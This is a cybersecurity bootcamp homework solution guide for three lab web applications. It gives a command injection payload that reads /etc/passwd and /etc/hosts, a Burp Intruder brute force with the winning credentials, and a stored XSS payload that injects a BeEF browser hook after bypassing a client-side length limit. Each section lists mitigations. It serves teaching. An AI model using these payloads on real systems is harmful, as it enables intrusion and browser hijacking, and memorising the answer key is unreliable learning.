 # Unit 15 Homework Solution Guide

## Web Application 1: *Your Wish is My Command Injection*

You were tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   **Hint:** Try testing out a command directly on the command line to help design your payload.

### Solution

The payload to access `/etc/passwd` is  ` 127.0.0.1 && cat ../../../../../etc/passwd`.
  
  - The response should resemble: 
  
    ```
    PING 127.0.0.1 (127.0.0.1): 56 data bytes
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=112 time=10.782 ms
    --- 127.0.0.1 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 10.782/13.324/19.145/3.394 ms
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ........(more records from the /etc/passwd)
    ```


The payload to access `/etc/hosts` is   ` 127.0.0.1 && cat ../../../../../etc/hosts`.
  
  - The response should resemble:

    ```            
    PING 127.0.0.1 (127.0.0.1): 56 data bytes
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=112 time=14.212 ms
    --- 127.0.0.1 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 11.580/13.453/14.394/1.118 ms
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    192.168.13.25	ab6396809425
    ```
  
**Deliverable:** There are many acceptable mitigations, including server-side input validation and server-side access control on files and directories.


## Web Application 2: *A Brute Force to Be Reckoned With*
 
Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators who accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute-force attack on this web application. 

   - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     
     - [Breached list of Passwords](breached_passwords.txt)
  
   - Hint: Refer back to the Burp Intruder activity `10_Brute_Force` from Day 3 for guidance.

### Solution

- After using Burp Intruder, the only user/password combination that should work is:
    
    - User:  `tonystark`
    
    - Password: `I am Iron Man`

- After rendering the page for this success record, the message will say: `Successful login! You really are Iron Man :)`

**Deliverable:** There are many acceptable mitigations, including password controls such as password rotation, password lockout, and multi-factor authentication.

## **Web Application 3** : *Where's the BeEF?*

You were tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.

- Task details:

  - The page you will test is the Replicants Stored XSS application, which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`.
  - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`.
  - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`.

-  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find a way around this limitation.    
      
  - **Hint:** Try right-clicking and selecting "Inspecting the Element."
    
- Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. 

### Solution

- The field does not have enough space to fit the entire payload. 

  ![A screenshot displays the XSS message field ](sol1.png)

- In order to add the entire payload, the `message` field length needs to be expanded.

  - *Note that this can also be accomplished using BURP to bypass the client-side limitations.*
  
  - To accomplish this, right-click within the `message` field and select `Inspect Element`.

    ![A screenshot displays the "Inspect Element" field](sol2.png)


- At the bottom of this page, you can find the `message` field HTML parameters.

  - Manually change the `max length` field from 50 to 100.

  ![A screenshot displays the "max length" field](sol3.png)

 
- Return to the origin page and enter the entire payload: `<script src="http://127.0.0.1:3000/hook.js"></script>` and click `sign guestbook`.

- When you return to BeEF, you can see your new browser has been hooked, allowing you to run a variety of BeEF commands.

  ![A screenshot displays the hooked new browser](sol4.png)


**Deliverable:** Users can implement server-side input validation to protect against the XSS attack. Users should have strong endpoint protection to monitor for exploits such as BeEF running within their browser. Additionally, some browsers have built-in controls to protect against BeEf hooking their browsers.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
